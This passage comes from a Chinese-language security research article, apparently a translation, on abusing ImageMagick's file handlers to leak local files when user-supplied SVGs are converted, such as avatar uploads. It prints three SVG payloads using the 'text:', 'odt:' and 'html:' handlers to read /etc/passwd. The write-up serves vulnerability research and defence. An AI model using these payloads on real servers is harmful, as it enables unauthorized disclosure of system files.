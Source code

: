 此外，ImageMagick还允许通过下面的语法来指定处理程序： 

```
convert msvg:test.svg out.png
```



## 读取本地文件

由于ImageMagick允许设置特定的文件处理程序，具体如上图所示，因此，我决定考察一下哪些处理程序可以用来读取和泄漏本地文件。

在这里，我们假设一个用户控制的SVG文件被IMs内部的SVG解析器转换为PNG文件，然后返回给最终用户。对于这种情形，我们可以在网站的头像上传中遇到。 

```
convert test.svg userfile.png
```

在ImageTragick中已经提到了第一个强大的编码器便是“text:”。该编码器用于将纯文本转换成图像（每页文本对应于一张图像），它是ImageMagick的“paged text”输入运算符。该编码器可以在txt.c中进行注册。 

```
&lt;svg width="1000" height="1000"

xmlns:xlink="http://www.w3.org/1999/xlink"&gt;

xmlns="http://www.w3.org/2000/svg"&gt;

&lt;image xlink:href="text:/etc/passwd" height="500" width="500"/&gt;

&lt;/svg&gt;
```

另一个读取/etc/passwd的例子是基于LibreOffice的。这是可以做到的，因为LibreOffice支持文本文件的渲染。由于ImageMagick不支持这种文件类型，所以，它会通过delegates.xml中的decode属性找到相应的协议处理程序。

当然，这种攻击手法只适用于安装了OpenOffice/LibreOffice的情形： 

```
&lt;svg width="1000" height="1000"

xmlns:xlink="http://www.w3.org/1999/xlink"&gt;

xmlns="http://www.w3.org/2000/svg"&gt;

&lt;image xlink:href="odt:/etc/passwd" height="500" width="500"/&gt;

&lt;/svg&gt;
```

如果安装了html2ps，也可以使用“html:”。虽然ImageMagick注册了一个“HTML”处理程序，但它只设置了一个编码器条目。并且，这些编码器只负责文件类型的创建/写入工作，而不负责读取工作（这是由解码器完成的）。因此，可以在delegates.xml中通过下列方式使用该解码器： 

```
&lt;svg width="1000" height="1000"

xmlns:xlink="http://www.w3.org/1999/xlink"&gt;

xmlns="http://www.w3.org/2000/svg"&gt;

&lt;image xlink:href="html:/etc/passwd" height="500" width="500"/&gt;

&lt;/svg&gt;
```
